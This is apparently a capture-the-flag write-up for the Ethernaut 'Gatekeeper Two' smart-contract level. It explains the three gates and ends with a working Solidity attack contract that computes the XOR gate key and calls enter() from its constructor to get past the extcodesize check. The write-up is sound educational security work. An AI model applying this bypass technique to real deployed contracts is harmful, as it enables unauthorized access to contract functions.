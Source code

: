 # 14. Gatekeeper Two
This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.
Things that might help:

    Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
    The assembly keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See here for more information. The extcodesize call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the yellow paper.
    The ^ character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see here). The Coin Flip level is also a good place to start when approaching this challenge.
	
### gateOne()
- same as Gatekeeper One - use a contract to call

### gateTwo()
```
  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }
```

solidity docs:  
`caller()` call sender (excluding `delegatecall`)

created a test contract + funciton
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract assembly_caller_test {

	function caller_test() public view returns (address) {
		address x;
		assembly { x := caller()}
		return x;
	}
}
```

returned remix test account  
change test:  
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract assembly_caller_test {

	function caller_test() public view returns (uint) {
		uint x;
		assembly { x := extcodesize(caller()) }
		return x;
	}
}
```

calling this returns 0 ... should pass with any account

### gateThree(bytes8 _gatekey)
```
  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }
```

for any XOR function: A XOR B = C, C XOR B = A  
thus, we can write a function to get the gateKey using our address:
```

function get_gatekey() public view returns (bytes8) {

	uint64 gateKey = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1;

	return bytes8(gateKey);

}
```

final contract to enter, using template from GatekeeperOne:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GateKeeperTwoAttack {

	bool public res;
	bytes public dat;

	constructor(address GatekeeperTwoContractAddress) public {
		uint64 gateKey64 = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0) - 1;

		bytes8 gateKey = bytes8(gateKey64);
		bytes memory encodedParams = abi.encodeWithSelector(bytes4(keccak256("enter(bytes8)")),gateKey);

		(bool result, bytes memory data) = address(GatekeeperTwoContractAddress).call(encodedParams);
		res = result;
		dat = data;
}

}
```

**END**  
Level completed!

Difficulty 6/10

Way to go! Now that you can get past the gatekeeper, you have what it takes to join [theCyber](https://etherscan.io/address/thecyber.eth#code), a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on [reddit](https://www.reddit.com/user/0age) or via [email](mailto:0age@protonmail.com) and use it to register with the contract at [gatekeepertwo.thecyber.eth](https://etherscan.io/address/gatekeepertwo.thecyber.eth#code) (be aware that only the first 128 entrants will be accepted by the contract).